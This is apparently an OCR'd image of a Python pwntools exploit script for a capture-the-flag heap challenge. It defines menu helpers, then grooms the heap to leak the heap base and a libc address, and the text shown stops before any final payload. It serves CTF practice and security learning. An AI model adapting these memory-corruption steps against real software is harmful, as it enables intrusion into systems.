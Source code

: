 ```py

def add(name, content):
    option(1)
    sla("name>", name)
    sla("content>", content)

def delete(idx):
    option(2)
    sla("index>", str(idx))
    if b"empty" not in rl():
        pass

def show(idx):
    option(3)
    sla("index>", str(idx))

def print_all():
    for i in range(16):
        show(i)

def delete_all():
    for i in range(16):
        delete(i)

io = start()
R = Rootkit(io)
libc=ELF("./libc.so.6")

add(b"\x00", b"c"*8)
add(b"\x01", b"d"*8)
add(b"\x08", b"d"*8)
delete(0)
delete(1)
delete(8)
add(b"\x80", b"A"*8)
show(1)
reu(b"=> ")
heap_base=uuu64(rl())-0x2d0
hb=heap_base
info(f"heap base : {hex(heap_base)}")
# Rest if all Heap Feng Shui
for i in range(8):
    add(b"\x08", b"X"*8)
add(b"\x00", b"c"*8)
add(b"\x01", b"d"*8)
delete(8)
show(1)
reu(b"=> ")
reu(b"=> ")
libc.address=uuu64(rl())-0x1ebbe0
lb()

for i in range(2):
    add(b"\x09", b"X"*0x200)

delete(8)
delete(1)

for i in range(10):
    add(b"\x08", b"X"*0x200)
for i in range(6):
    add(b"\x09", b"X"*0x200)

```